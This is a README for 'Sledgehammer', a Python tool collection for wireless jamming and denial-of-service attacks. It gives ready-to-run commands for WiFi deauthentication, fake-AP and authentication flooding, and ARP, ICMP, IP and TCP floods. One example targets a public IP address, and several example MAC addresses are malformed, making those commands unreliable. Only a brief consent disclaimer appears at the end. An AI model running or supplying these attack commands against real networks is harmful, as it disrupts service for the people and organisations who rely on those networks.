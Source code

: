 ### General information
Sledgehammer is collection of Jammer/DoS tools for various protocols. Those include at minimum:

- WiFi (smart deauthentication, DoS via fake AP creation, DoS via authentication)
- arp
- ip
- icmp
- tcp


### Prerequisites
- Python 3.x
- Pypacker ('pip install pypacker' or clone and 'python setup.py install')

### Installation
Just download and execute.

### Usage examples
Get general help via: python sledgehammer.py --help
Depending on attack mode parameters can vary. See mode-parameters for more info.

- WiFI DoS via smart deauthentication

  python sledgehammer.py --mode wifi_deauth --iface_name wlan1 --count 9999

- WiFi DoS via mass fake APs

  python sledgehammer.py --mode wifi_ap --iface_name wlan1 --channels 1 --count 9999

- WiFi DoS via mass auth

  python sledgehammer.py --mode wifi_auth --iface_name wlan1 --mac_dst 00:11:22:33:44:55:66 --channels 4 --count 9999

- ARP

  python sledgehammer.py --mode arp --iface_name wlan1 --mac_dst 00:11:22:33:44:55 --ip_dst 192.168.178.1

- ICMP

  python sledgehammer.py --mode icmp --iface_name wlan1 --mac_dst 00:11:22:33:44:55:66 --ip_dst 192.168.178.1

- IP

  python sledgehammer.py --mode ip --iface_name wlan0 --mac_dst 00:11:22:33:44:55:66 --ip_dst 192.168.178.123 --count 9999

- TCP

  python sledgehammer.py --mode tcp --iface_name wlan1 --mac_dst 00:11:22:33:44:55:66 --ip_dst 193.99.144.80 --port_dst 443

### Disclaimer
Use at your own risk. Do not use without full consent of everyone involved.